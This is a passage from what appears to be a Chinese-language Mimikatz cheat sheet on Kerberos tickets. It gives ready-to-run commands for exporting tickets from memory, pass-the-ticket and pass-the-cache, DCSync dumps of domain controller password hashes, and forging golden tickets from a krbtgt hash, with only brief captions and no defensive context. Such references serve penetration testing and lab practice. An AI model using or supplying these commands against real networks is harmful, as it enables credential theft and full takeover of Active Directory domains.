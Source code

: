 ### ticket

查看票据：

```
kerberos::list
```

导出所有票据：

```
sekurlsa::tickets /export
or
kerberos::list /export
```

> 注：与 kerberos::list 不同的是 sekurlsa 使用内存读取的方式，它不会受到密钥导出的限制。

清除票据：

```
kerberos::purge
```

导入票据到内存中：

```
# ptt (pass the ticket)
kerberos::ptt [0;1622d8]-2-0-60a00000-Administrator@krbtgt-XIAORANG.LAB.krbtgt

# ptc (pass the cache)
kerberos::ptc m3g9tr0n@HACKLAB.LOCAL_krbtgt~HACKLAB.LOCAL@HACKLAB.LOCAL.ccache
```

获取到 DC 服务的票据后，利用 dscync 导出 dc 的 hash：

```
lsadump::dcsync /domain:XIAORANG.LAB /all /csv
```

DCSync 获取指定用户的哈希：

```
lsadump::dcsync /user:Administrator /domain:example.com
```

使用 krbtgt 账户凭据，生成黄金票据并导入内存中：（/ptt 将票据加载到内存中）

```
kerberos::golden /krbtgt:8a4f49ff2d2eedf30b5e565e4332d0b5/user:administrator /domain:example.com /sid:S-1-5-21-2604854395-1602356619-879117556-502 /ptt
```

使用 krbtgt 账户凭据，生成黄金票据并保存到文件中：（/ticket 将票据以指定的文件名保存到磁盘上）

```
kerberos::golden /krbtgt:8a4f49ff2d2eedf30b5e565e4332d0b5 /admin:administrator /domain:example.com /sid:S-1-5-21-2604854395-1602356619-879117556-502 /ticket:administrator.ticket.bin
```

### event module
